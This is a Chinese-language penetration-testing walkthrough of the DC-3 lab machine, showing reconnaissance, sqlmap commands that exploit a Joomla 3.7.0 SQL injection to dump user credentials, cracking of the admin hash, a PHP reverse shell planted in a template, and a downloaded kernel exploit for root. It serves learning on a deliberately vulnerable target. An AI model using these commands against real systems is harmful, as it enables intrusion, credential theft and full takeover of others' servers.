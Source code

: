 # 信息收集
## 主机发现
>netdiscover -i eht0 -r 192.168.72.0/24

![在这里插入图片描述](【渗透项目】靶机DC-3渗透过程.assets/20200403104722733.png)
## 端口扫描
>nmap -sS -sV  -T4 -O -p-  192.168.72.155

![在这里插入图片描述](【渗透项目】靶机DC-3渗透过程.assets/20200403104822640.png)
## 目录扫描
>gobuster dir -u http://192.168.72.155 -w /usr/share/dirb/wordlists/big.txt

```
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/administrator (Status: 301)
/bin (Status: 301)
/cache (Status: 301)
/cli (Status: 301)
/components (Status: 301)
/images (Status: 301)
/includes (Status: 301)
/language (Status: 301)
/layouts (Status: 301)
/libraries (Status: 301)
/media (Status: 301)
/modules (Status: 301)
/plugins (Status: 301)
/server-status (Status: 403)
/templates (Status: 301)
/tmp (Status: 301)
```
其他目录扫描工具，比如dirb、dirbuster、御剑等
![在这里插入图片描述](【渗透项目】靶机DC-3渗透过程.assets/20200403105625313.png)
![在这里插入图片描述](【渗透项目】靶机DC-3渗透过程.assets/20200403105634730.png)
## 网站指纹
whatweb
>whatweb http://www.target.com

使用安装在浏览器上的插件更方便写
![在这里插入图片描述](【渗透项目】靶机DC-3渗透过程.assets/20200403105717919.png)
## CMS检查
>python3 cmseek.py  -u 192.168.72.155

![在这里插入图片描述](【渗透项目】靶机DC-3渗透过程.assets/20200403110121440.png)
>searchsploit joomla 3.7.0

![在这里插入图片描述](【渗透项目】靶机DC-3渗透过程.assets/20200403110207960.png)
查看42033.txt文件，利用文件中提供的url进行SQL注入
>sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --dbs
><url>
>sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --random-agent -D joomla --tables 
><url>
>sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --random-agent -D joomla -T '#__user' --columns
><url>
>sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --random-agent -D joomla -T '#__user' -C username,password –dump

![在这里插入图片描述](【渗透项目】靶机DC-3渗透过程.assets/20200403110727904.png)
获得admin账号的加密密码：`$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu`
>john ~/Desktop/pwd --wordlist=~/dict/passwordDict/top3000.txt

![在这里插入图片描述](【渗透项目】靶机DC-3渗透过程.assets/20200403125653229.png)
# 漏洞利用
登陆后在模板中发现远程代码执行
![在这里插入图片描述](【渗透项目】靶机DC-3渗透过程.assets/20200403125826148.png)
插入php反弹shell的代码，并用kali监听
>nc -vnlp 4444

![在这里插入图片描述](【渗透项目】靶机DC-3渗透过程.assets/20200403125914147.png)

通过点击模板的预览执行index.php中的代码
![在这里插入图片描述](【渗透项目】靶机DC-3渗透过程.assets/20200403130037103.png)
获得webshell
![在这里插入图片描述](【渗透项目】靶机DC-3渗透过程.assets/20200403130124284.png)
上传提权脚本
![在这里插入图片描述](【渗透项目】靶机DC-3渗透过程.assets/20200403130151511.png)
添加可执行权限
![在这里插入图片描述](【渗透项目】靶机DC-3渗透过程.assets/20200403130215978.png)

![在这里插入图片描述](【渗透项目】靶机DC-3渗透过程.assets/20200403130247981.png)
使用CVE-2016-4557提权
![在这里插入图片描述](【渗透项目】靶机DC-3渗透过程.assets/20200403130258649.png)
>wget	https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
>
>![在这里插入图片描述](【渗透项目】靶机DC-3渗透过程.assets/20200403130417334.png)
>解压zip文件
>![在这里插入图片描述](【渗透项目】靶机DC-3渗透过程.assets/20200403130427297.png)
>解压tar包
>![在这里插入图片描述](【渗透项目】靶机DC-3渗透过程.assets/20200403130435756.png)
>执行sh文件
>![在这里插入图片描述](【渗透项目】靶机DC-3渗透过程.assets/2020040313060783.png)
>运行提权文件
>![在这里插入图片描述](【渗透项目】靶机DC-3渗透过程.assets/20200403130643565.png)
>提权成功
>![在这里插入图片描述](【渗透项目】靶机DC-3渗透过程.assets/20200403130709503.png)
# 渗透总结
首先就是拿到一个有登陆界面的网站后，获取登陆用户名的常见方法是在登陆界面或密码找回界面通过网站不安全的错误提示遍历存在的用户；在像论坛这种的网站，可以根据发帖的人名称判读存在用户；也可以通过网站的SQL注入，来获得用户名甚至密码。

正常投入使用的网站都会存在有具有弱口令性质的用户，因此在获得已存在的用户后即可利用弱口令字典来进行暴破。

在DC-3中简单的方法是根据发帖判断网站的管理员就是admin，然后利用弱口令字典进行暴破，得到可登陆账号。

当通过暴力破解无法拿到登陆账号的情况下可以找网站的SQL注入或CMS等漏洞
## CMSeek
功能特点
- 超过170个CMS的基本CMS检测
- Drupal版本检测
- 先进的Wordpress扫描
- 检测版本
- 用户枚举
- 插件枚举
- 主题枚举
- 检测用户（3种检测方法）
- 寻找版本漏洞等等！
- 先进的Joomla扫描
- 版本检测
- 备份文件查找器
- 管理员页面查找器
- 核心漏洞检测
- 目录清单检查
- 配置泄漏检测
- 其他各种检查
- 模块化暴力系统
- 使用预制的蛮力模块或创建自己的模块并与其集成


安装
>git clone https://github.com/Tuhinshubhra/CMSeeK
>cd CMSeek
>pip3 install -r requirements.txt

使用
>python3 CMSeek.py -u www.target.com

更新

>python3 CMSeek.py --updata